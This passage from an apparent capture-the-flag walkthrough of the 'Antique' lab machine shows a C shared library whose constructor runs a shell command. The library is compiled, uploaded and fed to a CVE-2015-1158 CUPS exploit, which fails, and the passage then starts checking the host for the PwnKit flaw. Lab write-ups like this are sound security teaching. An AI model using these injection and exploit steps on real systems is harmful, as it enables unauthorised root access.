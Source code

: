 ```

#include<stdio.h>
#include<stdlib.h>

void __attribute__((constructor)) evil();

void main() {};

void evil() {
    system("touch /0xdf");
}

```

If this works, it will create a file at the filesystem root.

I’ll compile it:

```

oxdf@hacky$ gcc -shared -o so.so -fPIC so.c 

```

And upload it to Antique using a Python webserver on my host and `wget` on Antique. Now, I’ll run the exploit through the tunnel:

```

oxdf@hacky$ python2 cve-2015-1158.py -a 127.0.0.1 -b 9631 -c /tmp/so.so
...[snip]...
[*]     locate available printer
[-]     no printers

```

It fails because there are no printers available (something I noted above in the admin website).

### PwnKit

#### Find Vulnerable

Something like [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) will identify this host is vulnerable. This [post from Datadog](https://www.datadoghq.com/blog/pwnkit-vulnerability-overview-and-remediation/) shows how to manually check by running `dpkg -s policykit-1`:

```

lp@antique:/dev/shm$ dpkg -s policykit-1
Package: policykit-1
Status: install ok installed
Priority: optional
Section: admin
Installed-Size: 560
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Architecture: amd64
Multi-Arch: foreign
Version: 0.105-26ubuntu1.1
Depends: dbus, libpam-systemd, libc6 (>= 2.7), libexpat1 (>= 2.0.1), libglib2.0-0 (>= 2.37.3), libpam0g (>= 0.99.7.1), libpolkit-agent-1-0 (= 0.105-26ubuntu1.1), libpolkit-gobject-1-0 (= 0.105-26ubuntu1.1), libsystemd0 (>= 213)
Conffiles:
 /etc/pam.d/polkit-1 7c794427f656539b0d4659b030904fe0
 /etc/polkit-1/localauthority.conf.d/50-localauthority.conf 2adb9d174807b0a3521fabf03792fbc8
 /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf c4dbd2117c52f367f1e8b8c229686b10
Description: framework for managing administrative policies and privileges
```